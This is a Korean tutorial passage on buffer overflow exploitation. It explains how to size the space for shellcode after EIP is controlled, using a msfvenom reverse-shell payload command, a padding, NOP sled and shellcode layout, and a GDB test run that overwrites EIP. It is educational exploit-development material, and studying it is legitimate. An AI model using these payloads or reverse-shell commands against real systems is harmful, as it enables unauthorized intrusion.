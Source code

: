 # 셸코드 길이 결정: EIP 제어 이후의 단계

BOF(버퍼 오버플로우)에서 EIP를 제어한 이후, 실제 악성 코드를 삽입하려면 \*\*쉘코드(Shellcode)\*\*를 어디에 넣고, 얼마나 넣을 수 있는지 공간 계산이 필요하다. 이 과정을 시각적 흐름과 함께 정리한다.

---

## 쉘코드 삽입을 위한 공간 계산

- 목표: 리버스 쉘 등의 동작을 담은 **쉘코드**를 삽입하고 실행시키는 것
- 우선 `msfvenom`을 사용하여 payload 크기를 확인한다.

```bash
msfvenom -p linux/x86/shell_reverse_tcp LHOST=127.0.0.1 LPORT=31337 \
  --platform linux --arch x86 --format c
```

- 출력 예:

```
Payload size: 68 bytes
```

- 여유 있게 넉넉히 공간을 확보하는 게 좋음 (예: 150바이트)

---

## NOP Sled와 전체 구조 만들기

- 보통 shellcode 앞에 \*\*NOP sled (`\x90`)\*\*를 삽입하면 안정적으로 실행됨
- 전체 구조:

  - 전체 오버플로우 크기: **1040 바이트**
  - NOP 공간: **100 바이트**
  - Shellcode 공간: **150 바이트**
  - EIP 덮기: **4 바이트**
  - 따라서 패딩(Buffer)은: `1040 - 100 - 150 - 4 = 786` 바이트
  
> 패딩(Buffer)이란?: **"공간을 채우기 위한 임시 데이터"**(버퍼 오버플로우)

![쉘코드 구조1](sandbox:/mnt/data/buffer_overflow_8.png)

---

## GDB 실험으로 확인하기

- 아래와 같이 페이로드를 구성하고 GDB에서 실행해보자.

```bash
(gdb) run $(python -c 'print "\x55" * 786 + "\x90" * 100 + "\x44" * 150 + "\x66" * 4')
```

- `\x55` - padding (EIP 전까지 채움)

- `\x90` - NOP sled

- `\x44` - 쉘코드 자리 (임시 바이트로 테스트)

- `\x66` - EIP에 덮을 값 (예: `0x66666666`)

- 결과:

```
Program received signal SIGSEGV, Segmentation fault.
0x66666666 in ?? ()
```

![쉘코드 구조2](sandbox:/mnt/data/buffer_overflow_7.png)

---

## 요약

| 구성 요소     | 크기 (bytes) | 설명                |
| --------- | ---------- | ----------------- |
| Padding   | 786        | EIP 전까지 채움        |
| NOP sled  | 100        | 안정적 실행 보장용 NOP    |
| Shellcode | 150        | 실제 공격 payload     |
| EIP       | 4          | 덮어서 shellcode로 점프 |

- 쉘코드 길이 계산은 단순히 shellcode 크기만 보는 것이 아니라, 전체 페이로드 구조를 정확히 조합하고 시뮬레이션하는 것이 핵심이다.
